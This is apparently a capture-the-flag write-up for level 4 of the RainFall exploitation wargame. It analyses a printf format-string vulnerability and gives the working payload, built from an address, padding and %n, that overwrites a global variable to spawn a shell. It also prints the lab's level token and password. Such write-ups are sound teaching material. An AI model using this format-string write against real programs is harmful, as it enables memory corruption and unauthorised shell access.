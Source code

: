 # **Level4**

## **Analysis**

**In `main` :**

call to function `n()`

**In `n()` :**

`fgets` on `stdin` to a string `format` with a limited size of `0x200` characters
call to function `p()` which use this `format` string in `printf(format)` which is a vulnerability, referring to printf man
 ```
    Code such as printf(foo); often indicates a bug, since foo may
    contain a % character.  If foo comes from untrusted user input,
    it may contain %n, causing the printf() call to write to memory
    and creating a security hole.
 ```
and then it calls a `system("/bin/sh")` if the global variable `m` equal `0x1025544`

`m` adress:
```
(gdb) info variable
...
0x08049810  m
...
```
___

## **Exploit**

If we try to store a buffer `ABCD`, its done on the twelfth position
```
level4@RainFall:~$ python -c 'print "ABCD %12$x"' | ./level4
ABCD 44434241
```

We change `m` value using its little endian adress `\x10\x98\x04\x08`
m must equal `0x1025544` which is 16930116, minus the 4 bytes of the address 16930112
```
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' | ./level4
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

___

*Password: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa*